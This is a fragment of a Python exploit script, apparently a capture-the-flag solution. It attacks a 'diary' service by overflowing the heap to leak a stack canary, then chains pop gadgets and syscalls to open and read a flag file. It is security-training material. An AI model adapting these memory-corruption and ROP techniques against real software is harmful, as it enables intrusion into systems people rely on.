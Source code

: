 ```python
canary_addr = 0xf5fc8

flag = 0xbb000

syscall = 0x0625    # syscall popcanary pop pop pop ret

p3210r = 0x0605  # pop r3 r2 r1 r0 pc
p210r = 0x0607   # pop r2 r1 r0 pc
p10r = 0x0609    # pop r1 r0 pc
p0r = 0x060b     # pop r0 pc
if __name__ == '__main__':
    global p
    p = remote(HOST, PORT)

    write_diary(b'a\x00', b'ab', b'ab')
    write_diary(b'a', b'ab', b'ab')
    payload = b'\x00' * (heap_addrs[0] - heap_addrs[3] - 0x4ec)

    chunk = encode_seven(0x3)
    chunk += encode_seven(heap_addrs[1])
    chunk += encode_seven(heap_addrs[2])
    chunk += encode_seven(canary_addr)

    payload += chunk
    payload += b'\xf0'
    write_diary(b'a', b'\xf0', payload)
    
    ret = list_diary()
    print(ret)
    canary = ret.split(b'\n')[5][2:5]    # in 7bit number
    print(canary)
    
    write_diary(b'a', b'ab', b'ab')
    write_diary(b'a', b'ab', b'ab')
    write_diary(b'flag\x00', b'ab', b'ab')
    write_diary(b'a', b'ab', b'ab')

    buf = 0xf4000

    payload2 = b'\x00' * (gets_canary_addr - heap_addrs[8] - 0x4ec)
    payload2 += canary
    payload2 += b'AAA'                  # r3
    payload2 += b'BBB'                  # r2
    payload2 += encode_seven(flag)      # r1
    
    # open('flag')
    # r1 = addr('flag') 
    # r0 = 0x1
    # syscall
    payload2 += encode_seven(p0r)
    payload2 += encode_seven(1)
    payload2 += encode_seven(syscall)
    payload2 += canary
    payload2 += encode_seven(40)        # r3
    payload2 += encode_seven(buf)       # r2
    payload2 += encode_seven(2)         # r1

    # read(2, buf, 40)
    # r3 = 40
    # r2 = buf
    # r1 = 2
    # r0 = 3
    # syscall
```